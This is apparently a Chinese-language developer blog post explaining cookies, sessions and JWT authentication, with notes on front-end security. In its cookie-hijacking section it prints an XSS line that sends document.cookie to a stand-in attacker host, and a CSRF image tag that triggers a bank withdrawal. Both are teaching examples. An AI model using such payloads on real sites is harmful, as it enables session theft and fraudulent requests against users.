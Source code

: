 ```yaml
---
layout: post
title: Cookie 、 Session 和 Token
date: 2019-03-07
categories: 前端
tags:
  - token
  - cookie
  - 网络安全
---
```


`Cookie` 、 `Session` 和 `Token`

最后更新日期 2019-05-06

<!-- more -->

## 前端安全需要注意哪几方面问题

`XSS`（跨域脚本）、`CSRF`（跨站请求伪造攻击）、`arp`、`xff`、中间人攻击、运营商劫持、防暴刷

## Cookie 、 Session 和 Token

简介：

- `cookie` 服务员看你的身份证，给你一个编号，以后，进行任何操作，都出示编号后服务员去看查你是谁。
- `token` 直接给服务员看自己身份证

> 参考文章：
>
> - [cookie 和 token](https://www.jianshu.com/p/ce9802589143)
> - [MDN](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)

### Cookie

`HTTP Cookie`（也叫 `Web Cookie` 或浏览器 `Cookie`）是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。`Cookie` 使基于无状态的 `HTTP` 协议记录稳定的状态信息成为了可能。

Cookie 主要用于以下三个方面：

- 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
- 个性化设置（如用户自定义设置、主题等）
- 浏览器行为跟踪（如跟踪分析用户行为等）

#### cookie 的创建

服务器收到 `HTTP` 请求时，服务器可以在响应头里面添加一个 `Set-Cookie` 选项。浏览器收到响应后通常会保存下 `Cookie`，之后对该服务器每一次请求中都通过 `Cookie` 请求头部将 `Cookie` 信息发送给服务器。
服务端：

```js
  Set-Cookie: <cookie名>=<cookie值>
```

浏览器：(请求头部中加入)

```js
Cookie: <cookie名>=<cookie值>
```

#### JS 中获取 Cookie

通过 `Document.cookie` 属性可创建和访问的 `Cookie`，但是无法访问带有 `HttpOnly` 标记的 `Cookie`（缓解 `XSS` 攻击）

#### cookie 劫持

[MDN-cookie 安全](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies#%E5%AE%89%E5%85%A8)

1. 攻击者通过 `xss` 拿到用户的 `cookie` 然后就可以伪造 `cookie` 了。

   ```js
   new Image().src =
     'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie
   ```

2. 或者通过 `csrf` 在同个浏览器下面通过浏览器会自动带上 `cookie` 的特性在通过用户网站-攻击者网站-攻击者请求用户网站的方式浏览器会自动带上 `cookie`

```html
<img
  src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory"
/>
```

<!-- ## Cookie 与 Cookie 劫持

[Cookie 与 Cookie 劫持](https://g2ex.github.io/2015/06/29/Cookie-and-Cookie-Injection/) -->

## HTTP Session

`session` 本身是一个抽象的概念，为了实现中断和继续等操作，将 `user agent` 和 `server` 之间一对一的交互，抽象为“会话”，进而衍生出“会话状态”，也就是 `session` 的概念。`Session` 对象存储特定用户会话所需的属性及配置信息，维持一个会话的核心就是客户端的唯一标识，即 `session id`，通常又存储在 `cookie` 中。

## cookie 和 session 有什么区别

- `session` 在服务器端（较安全），`cookie` 在客户端， `session` 默认被存在在服务器的一个文件里（不是内存）
- 储存大小和方式：
  - `cookie`: 不超过 4K，只能保存 `ASCII`
  - `session`: 存储数据远高于 `cookie`, 可保存一些常用变量信息
- 有效期： `cookie` 有效时间长， `session` 一般客户端关闭就失效

## cookie 和 session 的联系

参考： [cookie 和 session](https://juejin.im/post/5cd9037ee51d456e5c5babca#heading-2)

登陆流程： `SessionID` 是连接 `Cookie` 和 `Session` 的一道桥梁，大部分系统也是根据此原理来验证用户登录状态。

特殊情况：

- 浏览器禁止了 `cookie`
  > 解决方法： 请求的时候采用 `post` 请求提交， 或者在地址后面拼上 `SessionID`
- 使用 `Token` 解决

## `token` 加密和登陆验证

> `JWT（JSON Web Tokens）` 用户发送登陆信息至服务器，服务器认证后，生成一个 `JSON` 对象，返回给用户，服务器完全只靠这个对象认定用户身份。为了防止用户篡改数据，服务器在生成这个对象的时候，会加上签名。
> 缺点：由于服务器不保存 `session` 状态，因此无法在使用过程中废止某个 `token`，或者更改 `token` 的权限。也就是说，一旦 `JWT` 签发了，在到期之前就会始终有效。（设置较短的有效期）

- `token`是无状态的，后端服务不需要记录 `token`。每个令牌都是独立的。
- 服务器不记录哪些用户已登陆或者已经发布了哪些 `JWT`。对服务器的每个请求都需要带上验证请求的签名`token`，都要在`HTTP header`中 `Authorization` 字段里，携带服务器返回的 `JSON`
- 服务器对 `JWT` 进行解码，如果 `token` 有效，则处理该请求
- `token` 是放在 `jwtJSON Web Tokens(jwt)`里面下发给客户端的而且不一定存储在哪里（可以存在 `localStorage` `sessionStorage`，或者 `cookie` 中） 不能通过 `document.cookie` 直接拿到，通过 `jwt+ip` 的方式可以防止 被劫持即使被劫持也是无效的 `jwt`
- 也可以储存在 `Cookie` 里面，在请求的时候自动发送，但是不能跨域

```js
// Request Headers 请求中
Authorization: `Bearer ${token}`
```

** JWT 数据格式 **

`Header.Payload.Signature`

> 示例：eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6NjksInVzZXJuYW1lIjoiXHU1OTI3XHU2Y2IzXHU1NDExXHU0ZTFjXHU2ZDQxIiwicGhvbmUiOiIxMzYyMTg3OTc4NCIsImV4cCI6MTU2MTcwNzYwM30.G77w5AMqu1PbT6YL3P1xYHBhUD16rRYvUwa89Nhkvtw
> 需要使用 `Base64` 转为 字符串

- Header (头部)
- Payload (负载)
- Signature (签名)

### Header

JSON 对象

```js
{
 "alg": "HS256", // 签名所用的算法，默认 `HMAC SHA256（HS256)`
 "typ": "JWT" //token 类型
}
```

### Payload

JSON 对象

```js
  {
    "iss": "签发人",
    "exp": "过期时间",
    "nbf": "生效时间",
    "iat": "签发时间",
    "jti": "编号"
  }
```

### Signature

对 `Header` 和 `Payload` 的签名，防止被篡改， 一般是加上一个唯一的字符串，来防止 `token` 被伪造篡改

简单的使用方法：

- 需要一个 `secret`（随机数）
- 后端利用 `secret` 和加密算法(如：HMAC-SHA256)对 `payload`(如账号密码)生成一个字符串(`token`)，返回给前端
- 前端每次 `request` 在 `header` 中带上登陆返回的 `token`
- 后端用同样的算法解密

